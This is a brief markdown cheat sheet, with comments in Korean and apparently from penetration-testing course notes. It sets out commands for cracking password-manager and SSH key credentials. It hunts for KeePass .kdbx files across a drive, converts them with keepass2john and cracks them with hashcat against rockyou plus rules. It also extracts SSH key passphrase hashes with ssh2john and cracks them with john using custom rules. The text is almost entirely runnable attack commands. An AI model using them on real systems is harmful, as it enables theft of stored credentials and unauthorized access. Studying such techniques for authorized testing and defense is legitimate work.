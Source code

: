 # KeePass Password Cracking

``` powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

- C 드라이브 전체에서 `.kdbx` 확장자를 가진 파일을 재귀적으로 검색.
- `-ErrorAction SilentlyContinue` 옵션은 접근 권한 오류 메시지를 숨김.

``` bash
keepass2john Database.kdbx > keepass.hash
```
``` bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
```
login with master password
```

---
 
# SSH Private Key Passphrase Cracking

``` bash
ssh2john id_rsa > ssh.hash
```
``` bash
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```
``` bash
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

---
